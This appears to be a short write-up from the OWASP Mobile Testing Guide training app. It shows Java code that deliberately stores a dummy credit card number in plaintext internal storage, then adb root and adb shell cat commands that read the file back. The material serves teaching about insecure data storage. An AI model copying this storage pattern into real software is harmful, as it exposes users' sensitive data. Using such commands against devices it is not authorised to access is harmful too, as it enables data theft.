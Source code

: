 ## OMTG-DATAST-001-INTERNALSTORAGE 

> app/src/main/sg/vp/owasp_mobile/OMTG_Android/OMTG_DATAST_001_InternalStorage.java

```java
FileOutputStream fileOutputStream;
try {
	fileOutputStream = openFileOutput("test_file", 0);
} catch (FileNotFoundException e) {
	e.printStackTrace();
	fileOutputStream = null;
}
fileOutputStream.write("Credit Card Number is 1234 4321 5678 8765".getBytes());
fileOutputStream.close();
```

Exploit:

- `$ adb root`

- `$ adb shell cat /data/data/sg.vp.owasp_mobile.omtg_android/files/test_file`

```
Credit Card Number is 1234 4321 5678 8765
```

